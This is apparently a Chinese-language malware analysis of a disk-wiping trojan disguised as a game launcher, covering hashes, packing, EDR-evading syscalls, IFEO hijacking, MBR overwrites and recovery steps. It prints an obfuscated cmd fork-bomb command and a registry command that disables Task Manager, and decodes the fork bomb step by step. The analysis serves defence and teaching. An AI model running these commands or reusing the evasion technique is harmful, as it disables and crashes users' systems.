


## 1.病毒介绍

| 属性 | 值 |  
| --- | --- |  
| 文件名 | `末日客户端启动器1.7.exe(名称多样)` |  
| **真实投递名** | **`汉化器.exe`**（见3.2） |  
| 大小 | 10,611,200 字节（10.12 MB） |  
| SHA-256 | `E2EAF879AA69579CED0DC78C33E5781F933E25918838A50BAC98B507660F67C7` |  
| SHA-1 | `348A6F456A87E0E126B041B73A5E97E97D3CFF3F` |  
| MD5 | `C2CD10258D21363B775DF526CB42B02D` |  
| 类型 | **Disk Wiper（磁盘擦除器）** + 持久化后门 |  
| 家族 | `Trojan.Win32.Diztakun` |  
| 保护 | **VMProtect 3.x 全虚拟化** |

> 本病毒早在2024-07-09就已经被上传至VirusTotal  
>   
> 可见上传次数与名称极多（至少被上传33次），被多数平台认定为“Trojan.Win32.Diztakun”.  
> 点击[此处](https://www.virustotal.com/gui/file/e2eaf879aa69579CED0DC78C33E5781F933E25918838A50BAC98B507660F67C7/details)进入VT链接

### 1.1 病毒本质流程

1. 以管理员身份运行  
2. 禁用任务管理器，无法通过任务管理器结束  
3. 投放更多可执行文件(GUID命名的.exe x4, executable.exe x1)  
4. IFEO映像劫持六个系统程序  
5. 注册表设置开机自启动  
6. 注入ChromeUpdater进程  
7. **覆写 MBR（主引导记录）和全部物理磁盘**  
8. 停止系统的WerSvcGroup崩溃报告服务，使事后没法取证

## 2.静态分析

### 2.1 PE头

```
Machine          : 0x014C  (32 位 PE)
Subsystem        : 2      (图形界面程序)
Linker           : 14.29  (VS2019/2022)
EntryPoint RVA   : 0x00D5FDF7   ← 注意这个位置
```
由其EntryPoint RVA可以知道，病毒的入口点在`0x00D5FDF7`而不是`.text`段，说明病毒已经被加壳。

其中 `SizeOfRawData` 中显示 `.text`、`.rdata`、`.data` 三个节的虚拟大小分别是 184.5 KB / 98.7 KB / 7.9 KB，但磁盘实际大小全是 0 字节，即已被加密，只有运行时才会被还原出来。

### 2.2 VMP体积膨胀

原始程序体积大约为296KB，加壳后体积为10.12MB，可见加壳后体积膨胀了几乎35倍。普通压缩壳如UPX之类大约会膨胀2~4倍左右，此壳为VMProtect 3.x 全虚拟化壳。  
由DetectItEasy（DIE）分析也印证其为VMP(New)的想法。  


### 2.3 直接分析字符串

通过字符串提取(ASCII & UTF-16)，发现所有此类字符串(接近38000条)其中不存在任何有意义字符串，包括但不限于URL、注册表路径、文件操作API、特殊关键词、中文。

### 2.4 导入表

本程序共导入了10个DLL，但每一个DLL都只留下一个函数，基本上都是正常API（包括但不限于DirectDrawCreate(图形)、waveOutWrite(音频)、DrawTextW(文本绘制)、ExtractIconW(图标)等，制造其为游戏程序的假象，至于能否骗过杀软未可知）。  
详细列出来就是这些：

```
KERNEL32.dll  →  lstrcmpW
USER32.dll    →  DrawTextW
GDI32.dll     →  DeleteObject
ADVAPI32.dll  →  RegCreateKeyExW
SHELL32.dll   →  ExtractIconW
ole32.dll     →  CoInitialize
WINMM.dll     →  waveOutWrite
DDRAW.dll     →  DirectDrawCreate
```

但是实际上还有其他API隐蔽执行：

```
KERNEL32!LoadLibraryA       ← 运行时加载 DLL
KERNEL32!GetProcAddress     ← 运行时解析 API
```

通过动态加载DLL与调用API，程序在执行时才会解析更多的恶意API，从而实现其真实功能（如写入磁盘、删除文件、IFEO 劫持等）。

### 2.5 管理员执行

资源XML中写有：

```xml
<requestedExecutionLevel level='requireAdministrator' uiAccess='false' />
```

即本程序必定会带有管理员执行权限，为执行后写入写 `PhysicalDrive` 和 `\Device\Harddisk0\DR0` 等物理磁盘路径做铺垫。

### 2.6 字节定长

在加密节中发现 'AA6D' 反复出现(共1364个)，且每个 'AA6D' 周期定长(12字节)。  
得出结构：`AA 6D` 是记录同步字（恒定不变），第 4 字节是 handler 在字节码流里的偏移且单调递增。最终一共解析出约 140 个虚拟指令，说明这套 VM 覆盖了完整 x86-64 指令集的一个大规模子集。

### 2.7 绕过EDR

总结低熵(混乱度)的区域，在低熵区域发现一段字节。用 32 位模式反汇编发现无内容，换成64 位模式反汇编发现含有syscall：

```asm
01106090  call   0x11887CA
01106095  syscall            ←此处
01106097  call   0x1442901
0110609C  mov   r9, [rsp+8]
011060A6  push  rbp
011060B6  lea   r10, [rbp+rbp*8-0xEC47DFD]
```

程序通过WoW64将64位代码映射进32位进程执行来绕过EDR(终端检测与相应)。  
`call → syscall → call` 是经典的间接系统调用：

| 层级 | 调用 | 效果 |  
| --- | --- | --- |  
| `kernel32!DeleteFileW` | — | 正常调用 |  
| `ntdll!NtDeleteFile` | ★ **EDR hook 在此** | **被完全跳过** |  
| `syscall` 进内核 | — | 进入内核 |

企业级 EDR 普遍在 `ntdll` 改写函数首字节来拦截可疑 API。直接系统调用让这些 hook **完全失效**。

> 全文件统计：`syscall` 294 次、`sysenter` 268 次、`int 0x2E` 133 次、`int 0x2D` 140 次。使用了全部四种进内核的方式。

## 3.沙箱分析(VirusTotal)

> 没自己实测是因为VMWare没装iso，懒得放虚拟机了，在VirusTotal上发现早就被传过了。

VT上有 **7 个沙箱**产出过数据（包括CAPE、Microsoft Sysinternals、VMRay、Yomi、Zenbox、VT Jujubox、C2AE），且CAPE和Microsoft Sysinternals没有被VMP反沙箱拦截。

### 3.1 释放本体

先释放出原文件  
"C:\Users\RDhJ0CNFevzX\Desktop\汉化器.exe"  
原来原作者写的时候是叫他汉化器吗。

### 3.2 文件写入

以下是沙箱分析的文件写入列表：

```
\device\harddisk0\dr0        ← MBR/VBR
physicaldrive1 ~ 5           ← 全部物理磁盘，包括U盘和移动硬盘
harddisk0partition0 ~ 5      ← 全部逻辑分区
c: d: e: f: g: h:            ← 所有本地盘符
x: z:                        ← 网络映射的共享盘
```

> Palo Alto Networks 给它的检出名是`Trojan:Win32/KillMBR!rfn`，即MBR杀手。

### 3.3 IFEO映像劫持

映像劫持很老的招数，相信都知道很多。如果不知道映像劫持的可以去看看[百度百科](https://baike.baidu.com/item/%E6%98%A0%E5%83%8F%E5%8A%AB%E6%8C%81IFEO/8522843)。

其实指的就是当特定一个1.exe启动时，Windows先检查其Debugger项，如果发现有指向2.exe的值，那么就不启动1.exe而直接启动2.exe。

本样本指向的目标是`Debugger = %SystemRoot%\System32\calc.exe`，即指向 Windows 自带的计算器，而且calc.exe已经被替换为恶意副本，做到持续性。本项分别劫持了以下程序：explorer.exe(文件资源管理器，只要看到桌面就说明启动了本进程)、cmd.exe(命令提示符)、reg.exe(用于修改注册表的程序)、tasklist(用于列出进程列表的程序)、sethc.exe(粘滞键帮助，按五次shift会出现的窗口)

### 3.4 禁用任务管理器

其禁用方法是：

```cmd
cmd.exe /c REG ADD hkcu\Software\Microsoft\Windows\CurrentVersion\policies\system /v DisableTaskMgr /t reg_dword /d 1 /f
```

同理也是注册表，即按照原本启动的方法会显示"任务管理器已被管理员禁用"。

### 3.5 卡死系统

原理：

```cmd
cmd.exe /c @echo.%0^|%0?$^_^.c^md&$_?nul
```

之前似乎见过b站有人讲过此命令的作用，但是很早了找不到原链接(搬运自Youtube)，而且不知为什么部分AI是无法分析明白这串命令的作用的，也许是由于其中的`>`被错误解析为`?`的缘故。  
分析方法是先去掉转义符`^`并适当添加空格分段，可以得到`cmd.exe /c @echo. %0|%0 > $_.cmd & $_>nul`  
然后拆解成多段：`cmd.exe /c`、`@echo. %0|%0 > $_.cmd`、`& $_`、`>nul`。  
第一段的含义是用cmd执行，由于该cmd命令由程序发出，所以需要先转交给cmd执行；  
第二段开始，就是向本目录中的"$_.cmd"这个文件写入内容，如果没有此文件就新建一个同名文件。写入的内容是%0|%0，这个命令很明显是耗尽系统资源的一种典型方式，原理就是分裂执行，由于%0指代的是自己而且"|"是通道符，再链接一个本体，就会使其一个会启动两个，两个会启动四个，以此类推。  
第三段就是链接下一段命令，即启动这个cmd脚本。  
第四段开始就是将输出重定向到nul，即不显示任何输出。

### 3.6 关于网络

本程序不链接任何私人服务器。

```
DNS 查询:  www.microsoft.com
IP 流量:   23.216.81.152:80 (Akamai)
           151.101.22.172:80 (Fastly)
           20.99.133.109:443 (Azure)
           162.159.36.2:53 (Cloudflare DNS)
           192.168.0.x:137 (本地 NetBIOS 广播)
内存 URL:  https://errors.edgesuite.net/... (崩溃上报)
```

### 3.7 杀毒软件认定

| 厂商 | 检出名 |  
| --- | --- |  
| Kaspersky | `Trojan.Win32.Diztakun.csat` |  
| EnigmaSoft | `Trojan.Diztakun.D` |  
| NictaTech | `Trojan.Win32.Diztakun.ceds` |  
| 火绒 | `Trojan/KillSys.b` |

另有两个独立引擎报 `Packed.VMProtect`，和本文的静态判定交叉印证。

家族背景：2021 年 5 月首次发现，到 2026 年 6 月仍然活跃，感染过 **898 台机器**，威胁评级 80%（高）。

## 4. 自救措施

由于本程序极具破坏性，基本上第一时间的自救会被错过(杀软拦截失败的情况下)。  
自救方法较少，第一时间请拔掉绝大多数外部存储系统(拔硬盘风险较大)  
如果有PE盘请立即进入PE并重建引导，按照上方所给出的破坏行为依次进行恢复，包括但不限于删除相应IFEO的Debugger项(位置在'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options')，恢复文件管理器等。  
**本文不是诊疗，如果真正中毒请联系专业人员并提供样本及中毒过程**

## 5. 文章来源

[VirusTotal](https://www.virustotal.com/gui/file/e2eaf879aa69579ced0DC78C33E5781F933E25918838A50BAC98B507660F67C7/details)  
[Kaspersky Threat Encyclopedia](https://threats.kaspersky.com/en/threat/Trojan.Win32.Diztakun.csat/)  
[EnigmaSoft](https://www.enigmasoftware.com/trojandiztakund-removal/)  
[NictaTech](http://www.nictasoft.com/viruslib/malware/Trojan.Win32.Diztakun.ceds)


**本文仅用于病毒分析，而且这是我第一次写此类文章，因此有可能有不全的地方，如有请指正**
